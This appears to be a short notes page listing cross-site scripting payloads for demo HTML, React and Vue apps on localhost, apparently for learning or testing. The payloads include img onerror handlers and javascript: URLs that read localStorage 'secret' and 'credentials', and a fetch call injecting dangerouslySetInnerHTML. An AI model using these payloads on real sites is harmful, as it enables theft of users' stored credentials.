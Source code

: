 ### HTML Application

- Text box: `<img src=empty.gif onerror=alert(localStorage.getItem('secret')); />`
- Dropdown: `<img src=empty.gif onerror=alert(localStorage.getItem('secret')); />`
- Checkbox: `<img src=empty.gif onerror=alert(localStorage.getItem('secret')); />`
- Radio: `<img src=empty.gif onerror=alert(localStorage.getItem('secret')); />`
- URL: `http://127.0.0.1:3000/comments.html?server-time=%3Cimg%20src=empty.gif%20onerror=alert(localStorage.getItem(%27secret%27));%20/%3E`

### React Application

- Evaluate: `javascript:alert(localStorage.getItem('credentials'))`
- POST call:
```
fetch("http://localhost:3000/comment", {
  method: "POST",
  headers: {"Content-Type": "application/json"},
  body: JSON.stringify({ dangerouslySetInnerHTML: { __html: "<img src=empty.gif onerror=alert('test') />" } }),
});
```

### Vue Application

- Link: `javascript:alert(localStorage.getItem('credentials'))`
- Evaluate: `javascript:alert(localStorage.getItem('credentials'))`

- v-html